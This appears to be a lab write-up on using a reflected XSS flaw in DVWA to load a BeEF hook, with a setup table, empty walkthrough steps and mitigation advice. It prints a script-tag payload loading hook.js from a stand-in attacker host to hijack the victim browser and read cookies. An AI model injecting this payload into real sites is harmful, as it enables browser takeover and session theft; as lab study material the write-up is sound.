




# BeEF + XSS mot DVWA

**Technique:** Reflected Cross-Site Scripting (XSS)  
**Tools:** BeEF, DVWA, Kali Linux  
**Environment:** Closed lab network

---

## Objective

- Trigger a reflected XSS in DVWA and inject the BeEF hook script
- Get the victim browser to appear as hooked in BeEF
- Demonstrate that BeEF can read origin, cookies, and hostname from the client

## Setup

| Role | System |
|------|--------|
| Attacker | Kali Linux with BeEF |
| Target app | DVWA (Reflected XSS, Security: Low) |
| Victim | Browser on the same lab network |

## How It Works

XSS allows arbitrary JavaScript to run in the victim's browser. By injecting:

```html
<script src="http://ATTACKER_IP:3000/hook.js"></script>
```

BeEF's hook is loaded into the victim's DOM. The browser establishes a control channel back to the BeEF server, making the victim visible in the UI — exposing properties like cookies, origin, and hostname.

---

## Walkthrough

### 1. BeEF server running



### 2. XSS payload injected in DVWA



### 3. Victim browser hooked



### 4. Client details captured



---

## Mitigations

- Input validation and output encoding (server + client)
- Content Security Policy (CSP) to block external scripts
- `HttpOnly`, `Secure`, and `SameSite` flags on cookies
- Regular dependency updates and security testing in CI/CD

---

## Disclaimer

Performed in a closed lab environment. Session IDs and sensitive values are masked in screenshots.

[← Back to overview](../README.md)
